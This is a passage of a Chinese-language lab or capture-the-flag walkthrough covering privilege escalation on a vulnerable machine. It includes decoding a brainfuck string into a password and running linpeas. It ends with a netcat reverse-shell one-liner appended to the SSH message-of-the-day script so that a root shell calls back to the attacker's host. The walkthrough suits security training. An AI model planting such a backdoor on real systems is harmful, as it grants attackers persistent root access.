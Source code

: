 ![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMa9y9JfKI1qgHAFlXAyk8YMUKK40EsCHD1qSouGYkOQuqiamXUZMLicpqw/640?wx_fmt=png)

权限比较低

查看内核

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaTvxB4cohRLrcvIuwX5yq5dLC0wCa2NC8AFVg729zYSYSTH8r3PbSmg/640?wx_fmt=png)

使用 searchsploit 查看是否有可以提权的脚本

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaaXFBmQ3KRFp3Q4Rz6ibsvrhXBrhR5e6fqliaul3B8sDxdazkTiaek5Urg/640?wx_fmt=png)

没有发现利用的脚本，看来提权得翻文件了

在 / home/inferno 目录中找到了 user.txt

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMal1IpFC7Wyg9xIoBGWLZb2vkz2x1oriceUjtMZfKePVoAoib4JbEJHHVQ/640?wx_fmt=png)

在 home 目录中可以发现还存在 2 个用户

我们还需要找到 root.txt, 这个文件估计需要我们提权了

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMajibrClOGayGRjxhCZicPH41L6ZH2hc1NepEOWGunyJr71aZFRN1gvkiaA/640?wx_fmt=png)

Yamdoot 应该是 TFPT 用户，narak 我们访问不了，应该为高权限账号

继续翻文件

在 / mnt 目录发现一段密文

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaicZW49fMyHibsFaD0ot9tbKlL8gY1Yd7AKnZ4UhpkzmH4Ecyn67qIg2g/640?wx_fmt=png)

百度可以得到为 brainfuck

使用 brainfuck 在线解密

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaOmxzk4icyxqlGW6Zzb5hLT15MvcjKuVJA3RB6ZNrUf57Nt9QJj0Lo3Q/640?wx_fmt=png)

得到 chitragupt，感觉可能是某个账号的密码

我们对 3 个账号进行尝试

使用 inferno/chitragupt 登录成功

接着我们可以上传 linpeas 来查找可供我们提权的文件

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaPpLn7gjPvnZRxLPfeIhDdaFCT6hYvBKgEDosAKsAv5h4rz21GjdSmA/640?wx_fmt=png)

/etc/motd 欢迎界面 我们可以通过修改 ssh 登陆时的欢迎信息来反弹一个 root 的 shell 使用命令 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i2>&1|nc 192.168.158.132 1234 >/tmp/f" >>/etc/update-motd.d/00-header
===================================================================================================================================================================================

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMacX9NLM0kyX4Q3896iaNnMAZhe5LOoM9eEnk3E85bfm1XaDJAtpcIrnw/640?wx_fmt=png)

接着 kali 使用 nc 监听

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaw627G4OT1bQU1xcedfa4MGDtJzFBvXBL8GPQiaGJcFERbMRzSOqg6GA/640?wx_fmt=png)
